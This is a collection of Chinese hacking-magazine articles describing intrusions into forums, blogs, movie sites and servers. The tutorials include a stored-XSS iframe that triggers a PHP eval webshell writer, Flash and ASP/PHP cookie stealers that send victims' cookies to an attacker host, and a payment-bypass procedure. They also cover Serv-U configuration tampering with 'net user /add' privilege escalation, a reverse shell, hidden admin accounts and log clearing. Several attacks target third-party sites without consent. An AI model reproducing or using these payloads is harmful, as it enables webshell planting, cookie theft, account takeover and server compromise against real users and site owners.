动网的数据库获得以后，可以得到明文密码的。拿出数据库查看器，打开刚下载的数据库……找不到 `dv_log` 表……md5 密码暴力破解也算一种方法。

以超速度破解密码，但那都是对于一些不强壮的密码而言的，倘若别人把密码设置得复杂一些的话，要靠穷举破解密码，那要等到猴年马月呀！

就在我快要彻底放弃的时候，突然我想到了一个问题……如果在论坛网址后面加上一个 `upfile.asp`……这个漏洞就是在发帖的地方，有一个上传图片的选项，如图 7。


来看看这个上传有没有过滤，拿出抓包工具，抓包，获取 cookie……把上传地址改成帖子提交地址，试好，上传……看看上传工具的返回结果，如图 8。

这次终于上传成功了，赶紧访问看看，如图 9。访问成功了……


谁知道，他的服务器偏偏设置得不怎么完善，权限还很大的，只有 C 盘不可以访问而已，其余的盘都可以访问，可以写入文件……当然是获取服务器的权限。

困了，挂 QQ 升级，呵呵。

好了，渗透工作开始了，首先上传一个 `flp.exe` 提升权限工具上去，上传到 C 盘，改名为 `sa.gif`，提升加个用户看看，如图 10。


我们使用 `pcanywhere passview` 这个小工具就可以很方便地查看到用户名和密码，如图 12。


失败了，再来，上传一个 `serve-u.exe` 提升权限工具，再次执行命令，还是不行，看来自打了补丁了，默认的帐号和密码应该也改了，就算把工具上传到了那个 everyone 权限的地方（`c:\winnt\system32\inetsrv\Data`），还是不成，看来管理员也还是有点儿水平的，再来看还有什么好用的，幸好给我发现了个好东西——pcAnywhere，其默认的路径是：`C:\Document\All Users\Application Data\Symantec\pcAnywhere`，下载他的 cif 文件，这个文件存放的是用户名和密码，如图 11。


得到了用户名和密码，再剩下来的事儿当然是登录了，还在等什么啊（图 13）！


至此，一次完整的入侵及提升权限过程就这样结束了！

（文字中涉及到的工具：上传工具、Winsock Expert、serve-u 提升权限程序、pcanywhere passview。）

### 利用跨站——从 bo-blog 得到 webshell

浅蓝的辐射色[F.S.T]

大家都知道 bo-blog 吧，它是一款很流行的个人单用户 PHP 的 blog 系统。是 PHP 的 blog 系统里鱼见过的最好的，速度稳定，安全，而且也有很多漂亮的模板可以提供用户选择。我们的冰狐浪子老大就使用这么一款 blog 系统，记得以前鱼就写过一篇关于它的安全隐患的文章，后来 bob 很快地更新了补丁，所以鱼觉得 bo-blog 从各个方面都是不错的，可惜依然存在一个安全隐患，可以使恶意攻击者得到 webshell。另外在这里要把大家对跨站的误会解除掉，很多人一想到跨站依然想到的是 img，汗……能直接写代码他也要非写个“img...><”<，好了不说废话了，我们进入正文。

## 1. 漏洞起因

在 bo-blog 的 `guestbook.php` 里有段处理我们留言的代码，大家可以看看。

```php
$gname=safe_convert($gname);
$gemail=safe_convert($gemail);
$ghomepage=safe_convert($ghomepage);
$gmessage=safe_convert($gmessage);
```

看到没有，所有提交的留言都被 safe_convert 函数处理过了，看起来没戏，我们接着看下面到底有多少被“引到”了文本数据库里，`$gcontent,$gname,"|",$gshijian,$gemail,"|",$ghomepage,"|",$gmessage,"|",$ip,"|",$grestrict,"|no|"`，看到了没有，有三个是没有处理就直接进入了文本数据库的，死猪也要嗅检测啊，这真是不负责啊，我们来仔细看看这三个函数。

第一个“`$gshijian`”，时间，控制不了这个；“`$ip`”，要是谁可以把自己 IP 改成一串代码也是很有意思的，可惜依然利用不了。“`$grestrict`”的作用为是否隐藏只允许 blog 主人看，这个我们可……

# 一个人的战争

## 以伪造！

假设我们知道 blog 的文本数据库在哪里，我们可以直接写 shell 了，呵呵。但是我们不会知道，那么我们可以干什么呢？我们继续往下看。

## 2. 利用漏洞→跨站

由于这个是保存在文本数据库里的，所以我们不可以利用，而且 PHP 的 magic_quotes_gpc 为 ON 的时候，我们要处理转义又是很郁闷的，所以我们要写的代码不能有 `'`，也不能有 `"`，这样的代码编写有点儿困难。

有一行代码可以达到我们的目的，而且没有上面的两个符号。我们还可以利用它得到 shell，这就是框架：一个 0 高 0 宽的框架，`<iframe frameborder=0 width=00% height=00 scrolling=no src=文件地址></iframe>`，我们要做的就是把这个代码写到留言所能看到的地方……

它们是这样排列的：“留言名 | 时间 | | | 内容 | IP 地址 || no | ……”。我们要让它显示出来，就可以把它写到管理员回复那里，但是很不安全，因为管理员不是傻子，自己没回复还会想不起来？

我们可以把一篇留言变成两篇……这样就成了两篇留言，而我们可以控制第二篇的时间、用户名（管理员和已注册均可）、IP 地址和其他东西……


```text
0|no||
icefox|1111742322||well<iframe frameborder=0 width=00% height=00 scrolling=no src=http://www.huji.net/akira/blog/up/getshell.html></iframe>|61.129.112.245|no|0
```

所以 icefox 的留言里就会打开 `http://www.huji.net/akira/blog/up/getshell.html` 来运行里面的 HTML、JS……而且这个 HTML 归我们管。

### 3. 欺骗得到 webshell 的操作步骤

记得我在第二期写了一篇关于 dvbbs 的跨站文章……只要能写 0 高 0 宽的框架，我们就可以利用欺骗使浏览者为我们提交操作……不知不觉地帮我们写了后门。

写文件的 PHP 代码如下：

```php
<?php
$shell='<?eval($_POST[saiy]);?>';
$filename='./up/saiy.php';
$fp=fopen($filename,'w');
fwrite($fp,$shell);
fclose($fp);
?>
```

我们只要伪造一个提交的表单，然后在这表单最后面加上一句：

```html
<script language="javascript">
this.document.forms[0].submit();
</script>
```

那么进入这个页面，它就是自动进行提交数据了，想不死都不可以啊。

## 4. 简单操作

有的朋友不会 PHP，也不会发包，所以鱼写了一个超简单的 HTML 给一些朋友测试漏洞。只要按照图 2 的设置修改一下，就可以把你要写的代码发送到对方的留言上……


```html
<iframe frameborder=0 width=00% height=00 scrolling=no src=http://www.huji.net/akira/blog/up/getshell.html>
```

改为 `<iframe frameborder=0 width=00% height=00 scrolling=no src=http://你的空间/shell2.html>`，只要 blog 主人登录了 blog，并且访问了你的留言，就会在 up 目录生成 saiy.php……

## 5. 漏洞修补

加上 `$grestrict=safe_convert($grestrict);`，或者直接打开后台的验证码就可以了。

## 6. 结语

其实跨站不一定要 img 标签，也不一定要偷 cookie……（文中涉及到的 ASP+PHP 两用 shell、shell.html、shell2.html 已经收录于光盘中）

---

# 一个人的战争


本来并没有打算写这篇文章的，但是在我发现漏洞并给站长发了 e-mail 后的一段漫长等待后，发现漏洞依然存在……现在就一起来看看我是怎么找到漏洞的。

事情的经过是这样的……朋友让我帮他找个电影网站看电影。开始通过搜索“金梅账号强暴器教程+工具”未果，随后改为搜索 `user/wantpws.asp`，找到可疑站点并继续测试。


访问 `http://www.9e99.com/user/` 后逐个测试链接，发现 `JOIN.asp` 为注册页。先注册，再登录；随后继续定位到 `Fee_Cancel.asp` 等页面进行提交测试。


测试 `Fee_Cancel.asp` 时，提示“该用户已经登录”。随后尝试 `Fee_CancelOK.asp`、`Fee_Mark.asp`、`Fee_MarkOK.asp` 等页面，组合提交记录以绕过流程。


现在整理操作步骤：先注册，再在取消/标记页面之间切换并提交，最终达到添加账号并提升会员状态的目的。

- 1. 找 `JOIN.asp` 页面注册；
- 2. 找 `Fee_Cancel.asp` 页面并提交（记录返回信息）；
- 3. 找 `Fee_MarkOK.asp` 页面，带上上一步记录后提交完成。


右栏说明该方法用于测试多个电影网站支付接口插件（“金梅电影版”）是否存在通用漏洞，并给出若干可检索站点示例与说明。

文中进一步提到：有些站点页面名变更，可借助站点探测器查看目录结构；另有部分站点仅支持特定地区手机，需要结合归属地信息测试。


是个办法啊，怎么办呢？哎，有没有知道地区查手机号的软件。没听过，还是问百度吧！在百度搜那个地区，用地名做关键字，找到一个公司，在他的页面上找联系电话，怎么样有手机号吧，我们只要前 7 位，后面随便改，希望改个没人用的啊！再次提交，呵呵！成功了啊。

这篇文章是我第一次写作，有什么不妥之处请大家多多指教。最后提醒各位站长，去掉了手机注册功能，但是页面存在的话，还是可以用上面的方法添加用户的，动一下手连页面也删掉，你的网站才安全。本文介绍的方法纯属技术交流，请大家切勿用于他途！

> （文章中提到的源代码已经收录在了本期光盘中）


---

## FLASH跨站攻击

蔷薇 玻璃

下面我要为大家演示一下 Flash 跨站攻击，这个漏洞已经出来好长时间了，但是在网上关于利用的文章很少，下面我就为大家简单演示一下完整的利用过程。

首先，先说明一下什么是跨站脚本（CSS/XSS）吧！我们所说跨站脚本，是指在远程 Web 页面的 HTML 代码中插入具有恶意目的的数据。用户认为该页面是可信赖的，但是当浏览器下载该页面时，嵌入其中的脚本将被解释执行。有时候跨站脚本被称为“XSS”，这是因为“CSS”一般被称为层叠样式表，这很容易让人困惑。如果你听某人提到 CSS 或者 XSS 安全漏洞，通常指的就是跨站脚本。

为了使大家便于理解，Flash 跨站攻击的原理我就不多讲了，网上已经有很多了，现在直接给大家讲一下利用方法吧！

好了，先看看需要的兵器：Flash MX、记事本（和投说一样）、100K 的 PHP 或 ASP 空间一个、准备攻击的支持 Flash 标签的论坛（好像几乎都支持）。

做好准备以后，直接进入正题。开始我们的第一步：打开记事本，输入代码，保存为 cookies.php，上传到你的 PHP 空间。我上传的地址是 `http://xxxxx.cn/cookies.asp`。好了，执行第一步，打开准备已久的 Flash MX，新建一个影片，在动作一帧的文本框中输入代码，如图 1：`getURL("javascript:window.open('http://xxxxx.cn/cookies.asp?msg='+document.cookie)");`，保存为 cookies.swf 也传到你的空间里。我的文件地址为 `http://xxxxx.cn/cookies.swf`。做了这么多准备了，下面该到利用的时候了。

打开你准备攻击的论坛，点击发表新帖，然后在标题中写入一个比较有诱惑力的几句话，在正文当中输入你的 Flash 标签，如图 2：`[swf]http://xxxxx.cn/cookies.swf[/swf]`。

好了，接下来就是等待了，等到你的帖子点击数不再是 0 的时候，cookies.asp 目录下的 cookies.txt 就能看到不少用户的 cookie 了，如图 3。

```asp
<%
testfile=server.mappath("cookies.txt")
msg=request("msg")
set fs=Server.CreateObject("Scripting.FileSystemObject")
set thisfile=fs.OpenTextFile(testfile,8,true,0)
thisfile.WriteLine("\n"&msg)
thisfile.close
set fs=nothing
%>
```

保存为 cookies.asp，上传到你的 ASP 空间。如果你没有 ASP 空间，那么就输入：

```php
<?php
$info=getenv(QUERY_STRING);
if($info){
  $fp=fopen("cookies.txt","a");
  fwrite($fp,$info."\r\n");
  fclose($fp);
}
?>
```


好了，得到 cookie 后是使用 cookie 欺骗还是 MD5 爆破就随你便吧，这里就不再赘述了。最后说一句，这个 Flash 跨站攻击博大精深，灵活掌握肯定有更多发现。比如说将指令改为 `getURL("javascript:window.open('http://www.xxx.com/adedamin.asp?username=Neosky')")`，就提交了一个名为 neosky 的管理员……


---

# n/p(NetPatch)（丫火点）

我想大家一定看过《西游记》吧，唐僧他们师徒四人为取得真经在路上饱受磨难（那可是九九八十一难啊），最后终于取得了真经！而这次我要讲的是我在学习网络安全技术过程中，一次安全检测时所碰到的坎坷钉子，最后是如何拔掉那些扎人的钉子的，希望能对新手有所帮助。

那天我正在写一篇技术文章，突然朋友发消息过来说他的个人服务器搭建好了，让我做个安全检测……于是马上就答应了！OK，开工！照例——踩点及扫描（初步检测）……

- 1. 系统为 Win2K Server
- 2. 服务器为 IIS 5.0
- 3. 应该没有系统漏洞
- 4. 系统装有防火墙
- 5. 3389——2K 终端服务（他的个人服务器怎么还开 3389 啊？郁闷！……）

既然软的不行我们就用硬的，检测他的网站！当即用 TouchNet Browser 打开朋友给的地址……所谓的网站就是一个不知名的下载系统……在它后面加上 `'` 跳出提示框……“不过还是要谢谢您的检测，我们的网站不存在注入漏洞！”倒，唉，就知道没那么容易。

算了，我们另寻他路……刷新，这个页面有注入漏洞！马上拿出 NBSI，一阵狂扫后终于得到了管理员用户和密码……再试社会工程学，马上打开他的论坛，用扫到的用户和密码登录……居然提示密码错误！难道真的就只能到这了？

（右栏）我看到他的论坛路径 `/lycbls/index.asp`，试探后台路径后出现“403 Forbidden”，说明管理页面就在这里。随后找到 `login.asp` 并尝试登录，进入后台后查找上传数据库备份链接，点击后出现“404 File Not Found”……之后尝试通过论坛备份功能写入 webshell，多次失败后改走上传图片再备份为 ASP 的方式，终于拿到 ASP 木马页面。

WEBSHELL 终于拿到了，现在该轮到系统权限了！浏览磁盘发现可访问受限，尝试写入 `C:\progra~1`、`C:\docume~1` 等路径均提示“目录不存在或者不允许访问”，上传 `cmd.exe` 到 `C:\WINNT\system32\inetsrv\data` 也提示无权限……随后尝试利用“系统服务信息”功能查看服务状态与资料。

```text
HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters\port
```

通过注册表键值读取功能读出了 Radmin 端口键值，转换后确认是 3389 端口……从这个突破口入手，继续尝试后续渗透。


到这个办法，但试了以后就知道，由于权限问题，不能做到！还有什么办法呢？只有从 Radmin 的密码着手了。马上又查询了 Radmin 的密码项，注册表中路径如下：`HKEY_LOCAL_MACHINE\SYSTEM\RAdmin v2.0\Server\Parameters\Parameter`，得到 `40*62*178*244*221*199*3*80*205*91*102*9*199*29*61*181` 这些键值！转换后得出注册表中 Radmin 的密码键值为……接着马上用转换出来的 Radmin 密码键值替换自己机子里注册表中的 Radmin 密码键值。替换后，马上请出字典工具“ProducePass”……然后开启 Radmin2.1_Bruter……我用“按键精灵”做了一段脚本，让它实现自动破解，如图 2。

其他时间就开启音乐，边听边等待成果出现！半个小时后，密码终于跑出来了……接着用完全控制模式连接他的服务器，然后在他的服务器桌面留下偶进来的证据！……晚上的时候，他老是不停地问我，到底是怎么进去的……老话说得好，“安全是一个整体”……（文中涉及到的程序 NBSI、海阳顶端网 ASP 木马@2006 α、Radmin2.1_Bruter、按键精灵已经收录于光盘中）


浅蓝的辐射鱼

# 一、前言

Discuz! 是一款著名的 BBS 系统，关于它的介绍我就不需要多说什么了。我们黑客 X 档案的论坛就是使用的这么一套 BBS 系统。记得写 phpwind 跨站的时候就写过：Discuz! 的安全性比 phpwind 论坛强，但同样的 Discuz! 也存在着极其严重的跨站漏洞，而且，这款岁月悠久的论坛程序跨站也跨得精彩。

## 二、漏洞存在原因

- 1. 头像部分存在跨站漏洞的原因

此款论坛存在一个论坛头像列表功能，就是定义论坛头像的时候允许你从论坛列表里选择你要的头像，调用方式为 `/memcp.php?action=viewavatars`（图 1）。我们来看那里的代码是怎么写的（此代码为 memcp.php 的第 430 行）。

```php
list($avatarwidthnew, $avatarheightnew) = getimagesize($avatarnew);
$maxsize = max($avatarwidthnew, $avatarheightnew);
if($maxsize > $maxavatarpixel) {
  $avatarwidthnew = $avatarwidthnew * $maxavatarpixel / $maxsize;
  $avatarheightnew = $avatarheightnew * $maxavatarpixel / $maxsize;
}
```

要注意的是下面这句：`UPDATE {$tablepre}members SET avatar='$avatarnew'`，这里没有任何过滤处理。

```php
$db->query("UPDATE {$tablepre}members SET avatar='$avatarnew', avatarwidth='$avatarwidthnew', avatarheight='$avatarheightnew' WHERE uid='$discuz_uid'");
```

看到没有，`$avatarnew` 没有做任何过滤就直接写到数据库里了。为什么 Discuz! 可以如此有恃无恐？原因很简单，它限制了站外提交……在限制站外提交的时候我们依然可以使用 NC 绕过限制……


图 1

像（和没有使用头像的用户一样）。我来解释一下为什么要这么构造，图片 `" width="0" height="0" border="0">` 是为了闭合前面图片的 HTML 标签……最后再写入跨站代码并重新闭合 `<script>alert("test")</script><script>alert('test')</script>`。然后将跨站代码拼接在后面以避免被发现……

图2

图3

图4

# 3. 登录跨站

登录的时候直接在用户名里写跨站代码，密码什么的都可以随便写。管理员查看后台日志就可以看到跨站代码，如图5。

图5

# 4. 部分论坛的绝对路径暴露问题

其实写到这里都很悲观点的，因为我并没有发现可以直接利用的严重漏洞。但是在 X 论坛上，当我把图片的高和宽设置成非数字（字母）时就报错了，如图6，显示出了 X 所在的绝对路径，从路径一不小心就发现了是 UNIX 系统……

图6

# 5. 细数一下另类的跨站利用

很多朋友一说到跨站就没兴趣了，其实不然。大家可能一直想到的就是跨站可以偷 cookie，所以觉得没劲。其实跨站我们就已经可以挂马了。只要修改上面的 `<script>alert("test")</script>` 为你要挂马的代码就好了，比如：

```html
<iframe frameborder=0 width=0 height=0 scrolling=no src=http://www.hackerxfiles.net/mm.html></iframe>
```

由于 discuz! 限制站外提交，所以就不能像 bo-blog 一样构造表单提交数据了，具体情况请大家研究喽。

# 6. 漏洞修补

在 memcp.php 的第 430 行：

```php
$avatarwidthnew  = $avatarwidthnew * $maxavatarpixel / $maxsize;
$avatarheightnew = $avatarheightnew * $maxavatarpixel / $maxsize;
```

后面加上 `$avatarnew = htmlspecialchars($avatarnew);`，然后就是等待 discuz! 官方发补丁了。

# 7. 结语

由于鱼鱼本身能力有限，所以文章难免有错，但是跨站是理论和测试都存在的……希望这篇文章能带给大家一点新的思路，不要一听到跨站就想到偷 cookie。看来自内的程序都没有百分百的安全，脚本安全任重而道远。

# 一个人的战争

记得美国士兵的军训里有句话，大概意思是这样的：任何完美的计划当开始作战时都派不上用场了。入侵也如同作战，方法是灵活多变的，事先考虑好的思路在实际的入侵过程中都不一定行得通！

最近肉鸡奇缺，决定临时抓几只先用着。先用流光只选择 NT 弱口令然后开始狂扫，扫了 N 个 IP 段也没扫到一台，难道“弱口令鸡”（magic dog 专用名词）快要绝种了？正巧朋友发过来一个网站叫我看看，看看能不能“那个”一下（你问我哪个？小子，丫还装蒜，信不信我打爆你眼镜？），盛情难却，看看吧，反正现在也没事。

## 第一天

首先我的想法是看能不能找到 ASP 的页面，有的话再暴库或 SQL 注射从而获取管理员密码，然后猜解后台，登录，上传木马获得 WEBSHELL，再利用 SERV-U 等漏洞提升权限，最后完全控制计算机。结果找了几个页面居然都是 jsp，如图1。

希望基本上破灭了，但是本着黑客精神我还是试了试在地址后面加上“.bak”、“%2e”、大写“JSP”等试图爆出源代码，结果：失败！看来页面上是没什么漏洞了，起码对于我而言是这样。打开 superscan 输入通过 PING 得到的对方 IP 地址，扫描得知服务器起码开了 21、80 两个端口，如图2。

开了 21 和 80 端口，我为什么说起码开了这些端口呢？因为如果对方有防火墙拦截或其他原因的话，也会致使实际开放着的端口却远程扫描不到。

先 TELNET 对方的 80 端口然后使用 GET，回车后得到 BANNER 是 IIS5.0，大概使用的是 WIN2000 系统了（小编注：从图3中 superscan 扫描时得到的 banner 已经显示出 web 服务组件是 IIS5.0 了，这 telnet 一步纯属多余）。登录 FTP，尝试对方是否可以支持匿名登录，唉，不可以。

又试了下直接远程溢出 SERV-U，还是失败。80 端口？用 webdavscan 扫了下没有发现漏洞，用 IIS5EXPLOIT 溢出也没成功！我带着最后的希望使用流光扫了下服务器，这一回，不幸降临在了对方的头上，被我发现了一个“FrontPage EXP” FrontPage 扩展漏洞，但是先别高兴得太早，万一向我要密码的话，还是没用的。

打开本机 FrontPage2003 连接对方网站，选择 webdav 方式传输文件，不一会儿对方网站下的东东全显示出来了，试着传了个魔王给的木马过去，成功！如图3。

到现在已经成功一大半了，看着天色不早了，要是明天上课“会周公”被徐 SIR（偶班主任啦）逮个正着又得辩论半天。

明天进攻后有两种思路：一个是测试能不能跳转到 SERV-U 的目录把配置文件 DOWN 下来修改，把自己加为系统管理员，再用 “quote site exec net user dog dog /add”，“quote site exec net localgroup administrators dog /add” 命令提升权限；或者用 SERV-U 的本地溢出，感觉 SERV-U 是个“漏洞大户”，本地溢出应该不难。

## 第二天

下了晚自习回到家打开电脑输入 ASP 木马地址，成功访问，但是马上我就傻眼了，要密码？魔王给我时没说明啊，于是自己在源代码中找，找了半天也没找到。这时魔王上线了，要到密码后终于进去了，如图4。

首先我要找到 SERV-U 的配置文件，选择“FSO1”，如图5。

图5

C 盘至 E 盘我可以访问，先在 C 盘下找了半天，发现该站点是放在 C 盘下的，但是没有找到 SERV-U。又转到 D 盘去找，最终在 D 盘下找到了我想要的配置文件：servudaemon.ini。通过 ASP 木马把它复制到 `c:\inetpub\wwwroot` 下，然后使用 IE 下载，打开一看里面也没什么用户，自己建立了一个系统管理员，代码如下：

```ini
[USER=dog]]
Password=
HomeDir=c:\
RelPaths=1
TimeOut=600
Maintenance=System
Access1=0\A\B\E\L\P
sKEYValues=
```

我把修改后的配置文件通过 ASP 木马又传了上去准备覆盖原来的配置文件（选择覆盖模式），WEBSHELL 显示上传成功。我登录 FTP 输入用户名 DOG，密码为 2c，幻想着接下来就应该是系统管理员了，然后在系统里加账户、传后门等美好未来，结果却显示密码错误。我倒！难道要让 SERV-U 重新启动？于是我在 WEBSHELL 里执行 net start，找到 SERV-U 的服务名：SERV-U，执行：net stop SERV-U，网页没有回应，于是我又执行：net start，但是 SERV-U 还是运行着呢……

我把自己机子上的“shutdown.exe”复制到对方 `c:\winnt\system32\inetsrv\data` 目录下，随后上传了一个反弹后门“binder2”，通过 WEBSHELL 执行 `c:\winnt\system32\inetsrv\data\binder2 1234`，在本机用 NC 监听 1234 端口，获得了一个在服务器 `c:\winnt\system32` 下的 GUEST SHELL！cd 到 `c:\winnt\system32\inetsrv\data\` 目录下，执行“shutdown.exe -r”，即要求对方服务器重新启动，如图6。

但是提示权限还是不够呀！……后来我找到了一个使用死循环来消耗内存以达到死机目的的程序，但是在本机运行后，虽然 CPU 占用率是 100%，但是效果似乎不如想象中的那么严重，系统也没有 down 掉，如图7。

改文件修改后在对方服务器上运行的想法。哎，老妈又喊起来了，我得睡觉了，明天继续战斗。

图6

图7

## 第三天

我在网上找了一些修改 SERV-U 配置文件入侵的文章，但是文章里好像都没有说需要服务器重启。是不是我在修改配置文件时出错了呢？于是我干脆把服务器上的配置文件里已有的管理员密码改掉，但是密码是 MD5 加密的，所以我得在本机安装一个同版本的 SERV-U……在自己的电脑上架设了一个 FTP 服务器，添加了一个系统管理员。把自己电脑上的 SERV-U 配置文件 servudaemon.ini 打开找到密码一栏，把加了密的密码复制，然后覆盖服务器上那个管理员的密码，再登录，成功！

欣喜若狂，先抓住自己激动的心情在 FTP 命令行下输入“quote site exec net user dog dog /add”回车，哈哈！失败了，郁闷，如图8。

```text
ftp> quote site exec net user dog dog /add
501 Permission denied.
ftp>
```

图8

程序也没有成功，看来管理员很喜欢打补丁！也不知道是不是脑袋短路了，在试完最后一个“溢出”程序时，回显成功，却没有获得 SHELL。仔细看 CMD 窗口，真是块豆腐撞死呀，如图9。

竟然 DOS 成功了！不过我可没成功的喜悦，这样一来一是打草惊蛇，惊动了管理员；二是再也不能再利用 SERV-U 了。命苦啊，继续去。

这里我说一下，其实在第一次修改 SERV-U 配置文件时我修改错了，完整的代码应该是：

```ini
User2=magic\10
[USER=dog1]
Password=...
HomeDir=c:\
RelPaths=1
TimeOut=600
Maintenance=System
Access1=c:\|RLP
SKEYValues=
```

由于对方还开了 80 端口，也顺便尝试一下吧！用 webdavscan 扫了一下，显示“Disabled”，没戏。又用 IIS5EXP 试着溢出，可是当 SHELLCODE 发出去后，本地监听的 NC 没任何反应，又失败了。现在我只好等着对方启动 FTP 服务然后再想办法。

## 第四、五天

SERV-U 还是没有重新启动，这什么管理员啊！

## 第六天

SERV-U 终于又出现在了服务列表里了，试了下这几天在网上找的溢出工具，但是全失败了，my god！陷入困境中。

## 第七天

阅读 X 以前写的关于 WEBSHELL 提升权限的文章后再次动手。首先准备了 3 个工具：winwvmiex、PipeUpAdmin、Runas。先运行 winwvmiex（图10），失败后再试 PipeUpAdmin（图11）。

还是不行，我们再试最后一个 RUNAS.EXE，但是要用户名和密码。现在还有一个办法是在系统管理员的启动项里做手脚，让他在登录时运行我们的 BAT 或 VBS。后来又上传了一个 FINDPASS，也没能读出管理员密码。

## 第八天

正当我一筹莫展时，在自己硬盘里找到个关于 SERV-U 的工具，原来是个 SERV-U 本地溢出。通过 WEBSHELL 执行命令后，先添加用户，再尝试提权到 administrators 组，但网页很久没反应，如图12。

状态栏中的进度条停顿不走了。打开新窗口查看用户详细信息，发现“a”用户还是普通 USERS 权限。既然程序可添加用户，理论上权限应是 Admin，后续考虑与其他工具配合以获得 ADMIN 权限的 CMD SHELL。

而我执行命令在 `c:\winnt\system32\inetsrv\data\SRV_Upath`，`binder2 自己NC监听的端口 自己的IP`，运行后发现本地的 CMD 并没获得权限……我补充完整路径后再次执行，成功获得效果，并尝试添加用户，成功了，如图13。

已经拿到最高权限了，现在一路顺畅了，建立管理员、克隆 GUEST、开 23、开 3389、留后门、种木马，反正随便我啦！也许细心的朋友会问为什么图14的用户列表里没显示出来，那是因为我在用户名后加了个 `$`，所以使用 `net user` 看不到，但可以通过 `net localgroup administrators` 查看。最后别忘了把 SERV-U 配置文件改回来，并清除日志。

图13

> （文中涉及到的程序 superscan、流光、海洋顶端木马2005、binder2、webdavscan、servu_dos 攻击.exe、ram.exe、srv_upath.exe 光盘有收录）

# 我们用思路来入侵

现在的网络，一个小小的缺陷就可能导致服务器被攻陷，这句话一点儿不假。本人是菜鸟一个，没有老鸟们那样犀利的入侵手法，但是我也喜欢入侵，只不过方法拙了一点而已……下面我就给大家献丑一下，讲一讲我的入侵。

首先，我们在 baidu、google 或 yahoo 里搜索 `/web/manage/`，如图1。

图1

很方便地就得到了一个大型网站的目录结构，如图2。

图2

有了这个目录结构，网站的文件就一目了然了。这对后面的入侵在一定程度上带来了很大方便。但这并不意味着就可以直接得到 webshell 甚至系统权限……

文件和管理员登录界面却带来了极大的方便。毕竟现在许多管理员都把登录界面隐藏得很深，即使拿到了用户名和密码，没有登录界面也无从登录。我很快就找到了它的数据库文件，如图3。

图3

看了这个数据库文件名把我吓了一跳，文件名里有大量特殊字符。加之文件名中含 `#` 号，直接在地址栏访问常会被截断。这里可把 `#` 改为 `%23` 来下载（前提是知道数据库文件名）。随后讨论了数据库文件获取、MD5 加密及后续处理思路。

辅臣数据库浏览器可以看到管理员密码经过了 MD5 加密，如图4。

图4

我可不想去暴力破解，一是没耐心，二是没必要。继续查看数据库中的其他有价值内容，最终在某日志表里发现了线索。随后通过进一步分析验证，得到“管理员密码”相关信息，并引出后续“多看 X 档案”的经验总结。

图5

的东西。常言道，“凡事有利就有弊”。例如，DV-Log 日志记录，它的初衷是为了将网站的日常活动记录在案，以防以后有什么变故。但是，就有那么一些不细心的管理员在修改密码或者干别的事情的时候忘记关掉，做的管理员的一切活动也被记录在案，而且这个记录是以明文的形式存放在里面的，当然也就包括了密码了呀。这样就给我们带来了很大的方便。

登录了后台就好办多了，因为是 DV 7.0，它的后台有文件上传和数据库备份记录功能。所以，我们可以先把 asp 木马的扩展名改为 gif 或其他允许上传的文件类型，然后再用它的数据库备份功能把扩展名改回来，如图6。

图6

这样一个 webshell 就到手了。想必常看 X 档案的朋友都知道，得到 webshell 还不算完，我们的目标是系统最高权限。在里面乱找了找，发现系统开了 Serv-U 和 Terminal Services 服务。有了这些东西权限提升就容易多了，不过，Serv-U 溢出漏洞前一段时间闹得比较凶，许多管理员都打上了补丁，不知道这个打了没有。传了个 ftp.exe 上去，执行，没有成功。看来管理员还是挺勤快的。既然这条路失败，却为何在网站配置上会犯这样的错误？唉……

东方不亮，西方亮。再找找，看还有没有什么可利用的，时间很快就过去了。最后还是没发现其他什么好利用的东西。看来，就只能在 Serv-U 上做文章了。找 Serv-U 的配置文件看看，试验看有没有写权限。没有写权限，当时在这里都已经准备放弃了。不过发现这里可以执行 cacls，有了这个就好办多了。cacls 其实这个命令高手们早都用滥了，这里我就简单地讲一下 CACLS 使用方法。

```bash
CACLS filename [/T] [/E] [/C] [/G user:perm] [/R user [...]] [/P user:perm [...]] [/D user [...]]
```

定义文件的 ACL：

- `/T` 更改当前目录及其所有子目录中的 ACL；
- `/E` 编辑 ACL 而不替换；
- `/C` 在出现拒绝访问错误时继续；
- `/G user:perm` 赋予指定用户访问权限；
- Perm 可以是：`R` 读取、`W` 写入、`C` 更改（写入）、`F` 完全控制；
- `/R user` 撤销指定用户的访问权限（仅在与 `/E` 连用时合法）；
- `/P user:perm` 替换指定用户的访问权限；
- `/D user` 拒绝指定用户的访问权限。

在命令中可以使用通配符指定多个文件，也可以在命令中指定多个用户。执行完命令之后，顺便在里面加个字符看看，我加了个“***”，成功，如图7。

图7

有了写权限，这下可就好办多了。在配置文件里加个用户名 nbsi、密码为空的一个高级权限用户，提交，刷新成功，如图8。

图8

现在用我们刚才加的那个 ftp 用户登录看看怎么样？

哦！Yes！再来加入高级用户看看。执行命令：

```bash
quote site exec net.exe user windows unicorn /add
quote site exec net.exe localgroup administrators windows /add
```

哈哈！成功执行，如图9。

图9

刚才我们前面都已经知道它开了 3389，哈哈！剩下的事儿还要我教你吗，可以登录上去玩了呀。

（文章中涉及到的程序——郁闷数据库浏览器已经收录到当期光盘中）

# Solaris 9

## 系统入侵与权限保持

王欣／Navyseals

前几天在 QQ 上遇到做兼职 Solaris 系统管理员的小 N，小 N 告诉我说他的一台 Solaris 系统的安全性很不错，所有的用户口令都设置得很复杂，系统也不可能被进行远程溢出。最后并向我要不要来测试一下，做一次“演练”。虽然我以前没接触过 Solaris，不过学习之余，可以学了嘛，再说几乎所有的 UNIX/Linux 都是差不多的，于是我们约定时间一周，看我能不能拿下他的系统。打开 cmd，对主机进行初步的扫描和信息收集，`C:\c:\nmap38\nmap -v -sS -O ***.***.***.***`，等待了几十秒钟后，得到扫描结果，如图 1。

```bash
C:\c:\nmap38\nmap -v -sS -O ***.***.***.***
```

